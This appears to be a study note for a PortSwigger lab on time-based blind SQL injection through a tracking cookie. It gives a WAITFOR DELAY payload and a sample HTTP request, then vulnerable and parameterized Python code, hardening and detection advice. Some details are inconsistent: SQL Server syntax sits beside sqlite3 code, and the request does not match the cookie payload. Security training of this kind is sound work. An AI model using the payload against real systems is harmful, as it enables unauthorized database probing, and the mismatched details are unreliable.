

## Lab 13: Blind SQL Injection with Time Delays

In this lab, we will explore a Blind SQL Injection vulnerability that uses time delays to infer the results of the injected SQL query. The application uses a tracking cookie for analytics and performs a SQL query containing the value of the submitted cookie.

### Vulnerable Parameter

The vulnerable parameter in this lab is the tracking cookie. The application constructs an SQL query using the value of the submitted cookie. If the application does not properly validate the cookie value, an attacker can inject SQL code to manipulate the query.

### Exploitation Process

To exploit this vulnerability, the attacker can inject SQL code to delay the query execution, thereby inferring the result based on the response time. For instance, the attacker might inject `'; WAITFOR DELAY '0:0:5'--` as the cookie value, resulting in the following SQL query:

```sql
SELECT * FROM analytics WHERE cookie = ''; WAITFOR DELAY '0:0:5'--';
```

This query will wait for  5 seconds before returning, indicating that the injected SQL code was executed successfully.

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response for this lab:

#### HTTP Request

```http
GET /analytics?cookie=%27%3B+WAITFOR+DELAY+%270%3A0%3A5%27--+ HTTP/1.1
Host: vulnerable-app.com
Cookie: tracking=; WAITFOR DELAY '0:0:5'--
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

### Mermaid Diagram: Attack Chain



### Common Pitfalls

When exploiting Blind SQL Injection with time delays, several common pitfalls can occur:

- **Incorrect Delay Time**: Choosing an incorrect delay time can make it difficult to infer the results accurately.
- **Network Latency**: Network latency can affect the accuracy of the inferred results.
- **Application Behavior**: The application's behavior can vary depending on the environment, making it challenging to predict the results.

### How to Prevent / Defend

To prevent Blind SQL Injection with time delays, follow these steps:

#### Secure Coding Practices

Use prepared statements or parameterized queries to ensure that user input is treated as data rather than executable code. Here is an example of a secure coding practice:

##### Vulnerable Code

```python
import sqlite3

def get_analytics(cookie):
    conn = sqlite3.connect('analytics.db')
    cursor = conn.cursor()
    cursor.execute(f"SELECT * FROM analytics WHERE cookie = '{cookie}'")
    results = cursor.fetchall()
    conn.close()
    return results
```

##### Secure Code

```python
import sqlite3

def get_analytics_secure(cookie):
    conn = sqlite3.connect('analytics.db')
    cursor = conn.cursor()
    cursor.execute("SELECT * FROM analytics WHERE cookie = ?", (cookie,))
    results = cursor.fetchall()
    conn.close()
    return results
```

#### Input Validation and Sanitization

Validate and sanitize all user inputs to ensure they meet the expected format and content. Here is an example of input validation:

##### Vulnerable Code

```python
def validate_cookie(cookie):
    return True
```

##### Secure Code

```python
import re

def validate_cookie_secure(cookie):
    if re.match(r'^[a-zA-Z0-9]+$', cookie):
        return True
    else:
        return False
```

#### Application Hardening

Configure the application to minimize the risk of SQL Injection attacks. Here are some configuration hardening steps:

- **Disable Error Messages**: Ensure that error messages are not displayed to the user, as they can provide valuable information to attackers.
- **Limit Query Execution Time**: Set a maximum execution time for SQL queries to prevent time-based attacks.
- **Use Least Privilege Principle**: Ensure that the application runs with the least privilege necessary to perform its tasks.

### Detection

Detecting Blind SQL Injection with time delays can be challenging, but several methods can help identify potential vulnerabilities:

- **Automated Scanners**: Use automated scanners like Burp Suite, OWASP ZAP, or Nessus to scan for SQL Injection vulnerabilities.
- **Logging and Monitoring**: Implement logging and monitoring to detect unusual patterns in SQL query execution times.
- **Penetration Testing**: Conduct regular penetration testing to identify and mitigate SQL Injection vulnerabilities.

### Hands-On Labs

To practice and master Blind SQL Injection with time delays, consider the following hands-on labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various types of SQL Injection, including Blind SQL Injection with time delays.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing different types of web security vulnerabilities, including SQL Injection.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing web security vulnerabilities, including SQL Injection.

By following these steps and practicing with real-world examples, you can effectively prevent and defend against Blind SQL Injection with time delays.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/14-Lab 13 Blind SQL injection with time delays/01-Introduction to SQL Injection|Introduction to SQL Injection]] | [[Web Security (PortSwigger)/02-SQL Injection/14-Lab 13 Blind SQL injection with time delays/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/14-Lab 13 Blind SQL injection with time delays/03-Blind SQL Injection|Blind SQL Injection]]
